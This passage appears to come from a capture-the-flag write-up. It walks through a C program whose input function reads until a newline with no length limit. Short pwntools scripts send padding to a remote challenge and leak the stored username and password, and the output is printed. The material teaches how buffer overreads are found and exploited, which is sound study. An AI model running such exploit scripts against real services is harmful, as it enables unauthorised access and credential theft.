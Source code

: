 ```c
	if(strncmp(password,input_password,strlen(PASSWORD)) != 0){
		puts("Invalid password");
		return 0;
	}

	return 1;
```

This logic seems fine, so let's look at the `input` funciton:
 
``` c
void input(char *buf){
    int recv;
    int i = 0;
    while(1){
        recv = (int)read(STDIN_FILENO,&buf[i],1);
        if(recv == -1){
            puts("ERROR!");
            exit(-1);
        }
        if(buf[i] == '\n'){
            return;
        }
        i++;
    }
}
```

Ha ha! There's our overflow. The function will only stop reading when we encounter a `'\n'`.  
I used this to leak the username and password.

``` python
s = remote(HOST, PORT)

s.sendline("2")
s.sendline("A" * 31)
s.sendline("")
s.interactive()

------------------------------------
username : Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
3XPL01717

s = remote(HOST, PORT)

s.sendline("2")
s.sendline("A" * 63)
s.sendline("")

s.interactive()
------------------------------------
username : Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
_H4CK3R_
```
So, we have `username = "_H4CK3R_"` and `password = "3XPL01717"`

